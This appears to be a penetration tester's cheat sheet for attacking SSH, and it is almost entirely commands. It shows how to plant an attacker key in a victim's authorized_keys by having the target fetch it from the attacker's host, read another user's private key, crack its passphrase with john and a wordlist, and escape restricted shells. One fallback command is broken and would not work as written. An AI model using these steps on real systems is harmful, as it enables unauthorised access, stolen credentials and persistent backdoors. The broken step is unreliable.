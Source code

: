 #### SSH Enuemration
```bash - kali
ssh $TARGET -p 22
```

#### Generate key upload to victim
Target:
```bash - target
cd ~
```

```bash - target
mkdir .ssh && cd .ssh
```

Kali:
```bash - kali
ssh-keygen
```

```bash - kali
cp /home/kali/.ssh/id_rsa* .
```

![[Python#Server]]

Target:
```bash - target
wget http://$KALI/id_rsa.pub
```

```bash - target
mv id_rsa.pub authorized_keys
```

Grant proper permissions (0700 for **~/.ssh** and 0644 for **~/.ssh/authorized_keys**).

Kali:
```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```

If that fails, try:
```bash - kali
echo id_rsa.pub > ~/.ssh/authorized_keys
```

Then:
```bash - kali
ssh $USER@$TARGET
```

#### id_rsa

Target:
```bash
cat /home/user/.ssh/id_rsa
```

Kali, copy value to local id_rsa file:
```bash
sudo chmod 600 id_rsa
```

```bash
ssh -i id_rsa $USER@$TARGET -p 2222
```

#### Disable login scripts

Kali:
```bash - kali
ssh $USER@$TARGET -t 'bash --noprofile'
```

#### ssh2john keyphrase
```bash
locate ssh2john
```

OR

```bash
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```

```python
python3 /usr/share/john/ssh2john.py id_rsa > key.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

#### [Error] no matching host key exchange type found.
```bash - kali
ssh $TARGET -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc -p 22
```

```bash - kali
ssh $TARGET -oHostKeyAlgorithms=+ssh-dss -p 22
```

#### Escaping from rbash
```bash
ssh $USER@$TARGET -t "bash --noprofile"
```